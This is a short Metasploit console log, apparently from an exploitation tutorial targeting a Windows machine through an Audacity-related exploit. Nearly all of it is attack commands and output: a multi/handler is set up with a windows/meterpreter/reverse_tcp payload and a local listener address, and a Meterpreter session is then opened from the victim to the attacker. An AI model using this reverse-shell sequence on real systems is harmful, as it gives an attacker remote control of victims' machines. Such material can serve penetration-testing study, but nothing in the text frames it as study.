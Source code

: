 ```
msf exploit(audacity) > use multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.2.15
LHOST => 192.168.2.15
msf exploit(handler) > exploit

[*] Handler binding to LHOST 0.0.0.0
[*] Started reverse handler
[*] Starting the payload handler...
[*] Sending stage (718336 bytes)
[*] Meterpreter session 1 opened (192.168.2.15:4444 -> 192.168.2.109:1445)

meterpreter >
```